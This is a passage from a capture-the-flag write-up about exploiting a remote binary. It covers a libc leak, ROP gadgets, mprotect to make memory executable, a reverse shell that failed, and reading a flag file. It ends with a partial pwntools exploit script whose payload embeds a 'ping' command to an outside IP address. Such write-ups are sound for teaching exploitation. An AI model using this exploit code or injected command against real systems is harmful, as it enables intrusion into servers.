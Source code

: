 This worked some times. In some instances the addresses were totally different. I didn't bother to figure out what was going on since it wasn't hard to get this particular case working and I wanted to move on to the exploitation. 

We were informed that ASLR was disabled on the server, and there was no stack canary. The only obstruction was NX. I grabbed libc from the server hosting Pwn100 in the hopes that it was the same one used for this challenge. I went to bed and handed the challenge off to barrebas. 

Barrebas figured out how to leak libc's base address, and from there he was able to modify the exploit to leak more data out. Thanks to that, we had access to a wider range of ROP gadgets and the functions in libc. He also found the socket file descriptor used by the server to communicate with us. 

We initially tried to get a shell, however nothing was working. A reverse shell I setup would connect briefly and then disconnect before I could do anything. Locally it worked, but remotely it was having issues. So much for the easy route. Based off Pwn100, I assumed the flag was in file called flag, and so I started to put together an exploit that would open the flag file, read it, and then write it back to us.

Due to NX, the stack wasn't executable. I decided to use mprotect() on addresses 0x00601000 to 0x00602000 to make it RWX. The plan was to copy the second stage payload in there which would perform the actual open/read/write of the flag. 

```python
#!/usr/bin/env python
from pwn import *
import time
import sys

context(os="linux", arch="amd64")

print "saving binary as \"mybin\""
f = open("mybin", "w")

r = remote("52.20.10.244", 8888)
d  = r.recvall()

f.write(d)
f.close()

e = ELF("./mybin")

# get the buffer size, port number, and max bytes to read
bufsiz = e.read(0x400781, 7)[3:]
port = e.read(0x4007d4, 3)[1:]
toread = e.read(0x40082e, 3)[1:]

bufsiz = u32(bufsiz) - 8            # bufsiz is size of stack frame - 8
port = u32(port + "\x00\x00")
toread = u32(toread + "\x00\x00")

print "port:", port
print "toread:", toread
print "bufsiz:", bufsiz

# see if this binary is exploitable
if toread > bufsiz:
    print "exploitable!"

    r = remote("52.20.10.244", port)

    buf = ""
    buf += "ping -c 1 109.237.212.117\x00"
    buf += "A"*(bufsiz-len(buf))

    base = 0x400690
    write_at_got = 0x601018
```